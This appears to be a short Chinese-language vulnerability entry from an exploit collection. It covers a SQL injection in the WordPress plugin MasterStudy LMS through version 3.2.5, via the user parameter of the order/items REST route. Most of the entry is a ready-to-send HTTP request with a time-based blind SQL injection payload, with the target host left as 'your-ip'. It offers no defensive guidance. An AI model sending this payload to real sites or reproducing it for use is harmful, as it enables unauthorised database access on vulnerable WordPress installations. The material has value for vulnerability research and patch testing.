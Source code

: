 **漏洞描述：**

WordPress Plugin MasterStudy LMS 3.2.5 版本及之前版本存在安全漏洞，该漏洞源于对用户提供的参数转义不足，导致可以通过 /lms/stm-lms/order/items REST 路由的 user 参数进行基于联合的 SQL 注入。

**影响版本：**

WordPress Plugin MasterStudy LMS<=3.2.5版本

**Payload：**

```yaml
GET /?rest_route=/lms/stm-lms/order/items&author_id=1&user=1)+AND+%28SELECT+3493+FROM+%28SELECT%28SLEEP%285%29%29%29sauT%29+AND+%283071%3D3071 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Linux; Android 11; motorola edge 20 fusion) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.61 Mobile Safari/537.36
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close
```

---
